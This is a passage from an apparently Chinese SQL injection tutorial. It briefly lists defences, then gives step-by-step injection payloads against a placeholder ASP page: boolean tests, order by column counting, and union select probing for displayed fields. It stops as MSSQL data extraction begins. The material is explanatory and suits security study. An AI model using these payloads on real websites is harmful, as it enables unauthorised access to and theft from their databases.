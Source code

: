 2.當用戶第一次登錄的時候，對簡單的密碼進行修改提示，防止暴力破解；

3.用戶名或密碼屏蔽掉單引號\('\)、等號\(=\)、註釋\(--\)等特殊字符；

4.對嘗試SQL注入的IP地址進行報警提示或日誌記錄

數據庫解讀SQL注入攻防原理

1.數據庫如何判斷注入點

判斷注入點的方法很多，比如show.asp?code=115' 加單引號，show.asp?code=115-1 減1，這裏介紹一個經典的方法。

\(1\) http://xxxxx/show.asp?code=115' and 1=1 --       \(正常顯示\)

對應的SQL語句：

select .... from table where code='115' and 1=1 -- and xxxx;

單引號\('\)匹配code='115，然後and連接，1=1恆成立，註釋\(--\)掉後面語句。

\(2\) http://xxxxx/show.asp?code=115' and 1=2 --       \(錯誤顯示\)

對應的SQL語句：

select .... from table where code='115' and 1=2 -- and xxxx;

單引號\('\)匹配code='115，然後and連接，1=2恆錯誤，註釋\(--\)掉後面語句。

2.數據庫如何判斷字段總數 order by

\(1\) http://xxxxx/show.asp?code=115' order by 1 -- \(正常顯示\)

對應的SQL語句：

select .... from table where code='115' order by 1 -- and xxxx;

按照1個字段進行排序，正常顯示錶示該URL對應的SQL語句至少一個字段。

\(2\) http://xxxxx/show.asp?code=115' order by 10 --  \(正常顯示\)

對應的SQL語句：

select .... from table where code='115' order by 10 -- and xxxx;

依次按照字段增加網上進行排序，如果提示錯誤order by 11，則表示共10個字段。

\(3\) http://xxxxx/show.asp?code=115' order by 11 --  \(錯誤顯示\)

3.數據庫獲取顯示位 union

在得到字段個數後，需要獲取字段位置，則使用union或union all。其中union表示將兩個select結果整體顯示，併合並相同的結果，union all顯示全部結果。

http://xxxxx/show.asp?code=115' union all select 1,...,null -- 

依次替換成數字，測試哪幾個字段有結果，如果報錯則替換回null。最終的結果爲：

show.asp?code=115' union all select 1,null,3,null,null,6,7,8,9,10 --

對應的SQL語句爲：

select .... from table where code='115' union all select 1,null,3,null,null,6,7,8,9,10 -- xxxx;

4.數據庫顯示錯誤網頁及對應數據 db\_name

該網站使用的數據庫爲MSSQL，則一定特定的字段需要知道：
